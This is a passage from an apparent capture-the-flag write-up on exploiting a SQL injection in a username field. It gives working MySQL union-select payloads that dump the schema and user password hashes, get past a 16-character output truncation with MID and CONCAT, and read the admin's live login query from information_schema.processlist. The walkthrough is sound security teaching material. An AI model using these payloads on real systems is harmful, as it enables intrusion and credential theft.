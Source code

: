 With the injection point identified, the next steps involve information gathering and bypassing the 16-character truncation:

    Dumping Database Name:
    0" union all select null,database()-- -
    This payload, when used as a username, reveals the database name, typically web.

    Dumping Table Names:
    0" UNION SELECT null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'web'-- -
    This reveals tables like logins and users.

    Dumping Column Names (and hitting truncation):
    0" UNION SELECT null,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' and table_schema='web'-- -
    At this point, the 16-character truncation becomes evident, as the full column names cannot be displayed.

    Bypassing Truncation with MID() and CONCAT():
    To overcome the truncation, the MID() function (for substring extraction) combined with CONCAT() (to join strings) is used. For example, to dump usernames and passwords:
    0" union all (select null,mid(concat(username,password),1,16) from users limit 0,1) union all (select null,mid(concat(username,password),17,32) from users limit 0,1) union all (select null,mid(concat(username,password),33,48) from users limit 0,1)-- -
    This technique allows extracting data in 16-character chunks. However, cracking the obtained admin hash proves to be a "rabbit-hole" – it's not the intended solution.

## 5. SQL-Inception with information_schema.processlist

Since the admin hash is uncrackable, the focus shifts to the admin's periodic login and the 5-second login delay. This suggests that the admin's login query might be visible in the information_schema.processlist table, which lists all active queries on the MySQL server.

    Initial processlist Probe:
    0" union all select null,info from information_schema.processlist-- -
    Injecting this as a username and observing the "Last logins" page after a minute would reveal fragmented parts of running queries, confirming visibility.

    Filtering Out Self-Queries:
    To isolate the admin's login query and prevent our own injected query from cluttering the results, a WHERE clause is added:
    0" union all select null,info from information_schema.processlist where info not like '%info%'-- -

## 6. The Final Payload

The ultimate payload combines the MID() technique for truncation bypass with the information_schema.processlist query, aiming to extract the admin's login query in 16-character fragments:

        0" union all select null,mid(info,1,16) from information_schema.processlist where info not like '%info%'
        union all select null,mid(info,17,32) from information_schema.processlist where info not like '%info%'
        union all select null,mid(info,33,48) from information_schema.processlist where info not like '%info%'
        union all select null,mid(info,49,64) from information_schema.processlist where info not like '%info%'
        union all select null,mid(info,65,80) from information_schema.processlist where info not like '%info%'
        union all select null,mid(info,81,96) from information_schema.processlist where info not like '%info%'
        union all select null,mid(info,97,112) from information_schema.processlist where info not like '%info%'
        union all select null,mid(info,113,128) from information_schema.processlist where info not like '%info%'
        union all select null,mid(info,129,144) from information_schema.processlist where info not like '%info%'-- -
